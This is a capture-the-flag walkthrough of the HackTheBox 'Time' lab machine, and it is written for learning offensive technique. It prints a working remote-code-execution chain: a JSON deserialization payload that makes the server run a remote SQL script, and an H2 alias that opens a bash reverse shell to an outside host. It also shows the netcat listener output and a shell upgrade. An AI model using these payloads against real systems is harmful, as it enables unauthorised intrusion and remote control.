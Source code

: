 ```yaml
---
title: " HackTheBox {Time}"
description: Walkthrough of the Time Machine on Hackthebox.
---
```

![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)

## Scanning port

```
Open port :

22/tcp open ssh
80/tcp open http
```

We can see that there is the ssh / 22 port and the 80 / http port which are open.

We are going to see the http / 80 port to see what is interesting.

We see an online json beautifier & Validator with 2 options, "Beatify" & "Validate!(Beta)".. I intercepted both options in burpsuite and i have just put a word in the field and submitted.

![time](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)

## User FLag

Now, you need to create a inject.sql files and add a reverse shell to have it call back to me. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.90/1337 0>&1 &')
```

Now, start a netcat listener :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Now inject the payload to : "Validate!(Beta)".

```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/inject.sql'”}]
```

and you got a reverseshell running as the user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.10.214] 42212
```

Now for a good stable shell, type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```
Got the user flag : 

```
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```
## Privilege Escalation

Try to upload linpeas ( LinPEAS is a script that search for possible paths to escalate privileges on Linux )

Install linpeas <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>



